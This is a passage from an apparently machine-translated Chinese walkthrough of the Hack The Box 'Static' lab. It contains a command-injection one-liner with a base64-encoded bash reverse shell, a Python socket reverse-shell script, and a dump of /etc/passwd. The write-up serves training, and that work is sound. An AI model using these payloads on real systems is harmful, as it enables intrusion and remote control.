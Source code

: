 相反，我们可以使用一个 liner 来创建我们的有效负载，并在一个程序中执行所有操作:

```
www-data@web:/tmp$ python3 -c "import urllib.parse; import os; PAYLOAD=('./curl-amd64 -s http://192.168.254.3/index.php?a='); PAYLOAD+=(urllib.parse.quote('/bin/bash -c \'echo -n L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn | base64 -d | bash\'')); os.system(PAYLOAD)"
```

另一个选择是使用[请求](https://docs.python-requests.org/en/latest/user/quickstart/#make-a-request)库的 Python 脚本:

```
#!/usr/bin/env python
import requests
payload = '/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\''
requests.get("http://192.168.254.3/index.php?a="+payload)
```

如果您想这样做，那么将上面的 Python 放在一个名为 script.py 的文件中，并将其上传到 box:

```
┌──(root💀kali)-[~/htb/static]
└─# scp -P 2222 -i id_rsa script.py www-data@10.10.10.246:/tmp
script.py                        100%  353    16.4KB/s   00:00
```

然后在 web box 上执行它:

```
www-data@web:/tmp$ chmod +x script.py
www-data@web:/tmp$ ./script.py
```

不管我们是通过哪种方式获得 shell 的，现在是时候看看这个新的 pki 盒子了。但是这里没有主文件夹，passwd 文件显示只有 root 用户可以登录:

```
www-data@pki:~/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

# 代用醇
